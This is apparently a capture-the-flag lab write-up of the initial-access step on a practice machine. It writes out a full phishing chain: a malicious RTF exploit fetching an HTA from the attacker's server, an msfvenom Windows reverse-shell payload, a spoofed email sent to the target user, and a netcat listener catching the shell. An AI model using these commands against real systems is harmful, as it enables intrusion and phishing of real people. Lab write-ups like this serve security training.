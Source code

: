 ## Initial Access

Let's create a malicious `rtf` and send it to `nico` using the `smtp` server.

Using `searchsploit`, we get an interesting exploit:

![](assets/Pasted%20image%2020241124073857.png)

Generate the `rtf`:

```bash
$ python2 41894.py -M gen -w yes.rtf -u http://10.10.14.11:8000/bad.hta            
Generating normal RTF payload.

Generated yes.rtf successfully
```

Generate the `hta` with `msfvenom`:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.11 lport=443 -f hta-psh -o bad.hta
```

Now, using `sendEmail`, we send the `yes.rtf` to `nico` and create a listener on port `443`:

```bash
$ sendEmail -t nico@megabank.com -u open -m yes -a yes.rtf -s 10.10.10.77 -f paco@megabank.com
Nov 24 08:04:58 kali sendEmail[861336]: Email was sent successfully!
```

Start a listener and a Python server and wait for `nico` to open the mail:

```bash
$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.77] 63152
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\nico>whoami
nico
```

Get the flag:

```shell
C:\Users\nico\Desktop>type user.txt
type user.txt
3d2c48a0d4a7fab39ef9536da3109a84
```
